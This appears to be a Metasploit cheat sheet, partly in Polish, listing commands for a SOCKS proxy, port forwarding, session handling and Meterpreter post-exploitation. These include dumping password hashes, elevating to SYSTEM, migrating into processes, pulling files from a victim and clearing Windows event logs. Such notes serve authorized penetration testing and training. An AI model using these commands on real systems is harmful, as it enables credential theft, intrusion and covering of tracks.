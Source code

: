 ## SOCKS Proxy
```bash
$ cat /etc/proxychains4.conf # configure SOCKS4 proxy 
# make sure there is line socks4 127.0.0.1 9050

# run SOCKS proxy server
msf> use auxiliary/server/socks_proxy
msf> set SRVPORT 9050
msf> set VERSION 4a 
msf> exploit
msf> jobs

$ proxychains nmap ... # use proxychains
```

# Port Forwarding

```bash
portfwd list
portfwd flush
portfwd add 
        -l 3389 # local port that will be listening and forwarded to our target
        -p 3389 # destination port on our targeting host
        -r [target host] # targeted system’s IP or hostname
portfwd delete –l 3389
```

# Sessions

```bash
multi/manage/shell_to_meterpreter # mając sesję zwykła można przekształcić ją na meterpreter.
sessions -l # lista dostępnych sesji
sessions -i nr_sesji # interakcja z sesją/kożystaj z sesji
sessions -c cmd # wykonaj polecenie cmd we wszystkich dostępnych sesjach
sessions -i 10-20 -c "id" # wykonaj komendę w wybranych sesjach
sessions -k 1 # ubij sesję
background / Ctrl+z # wysłanie sesji w tło, wychodzi z sesji ale jej nie kończy, wraca do msfconsole
```

# Meterpreter

```bash
sessions -u nr_sesji # upgrade sesji do meterpreter
sysinfo # system info
getuid # display the user that the Meterpreter server is running as on the host
background / Ctrl+z # Backgrounds the current session
upload src dst ` # upload pliku do ofiary, używany w sesji, src- pełna ścieżka do pliku na maszynie atakującego, dst- ścieżka do pliku tworzonego u ofiary
shell # przełącza do shell, exit/CRTL+C aby wyjść z shella do meterpretera
download c:\\boot.ini # pobierz plik z ofiary do siebie
pgrep explorer # szukaj PID procesu o nazwie explorer
migrate 2444 # migracja do procesu
getsystem # Elevate to the high privileg
hashdump # dump hashy haseł
clearev # clear the Application, System, and Security logs on a Windows system
edit edit.txt # Vi editor
execute -f cmd.exe -i -H #
ipconfig # displays the network interfaces and addresses on the remote machine
getprivs #
exit # TERMINATE the meterpreter session
search -f Unattend.xml # szukaj pliku Unattend.xml
```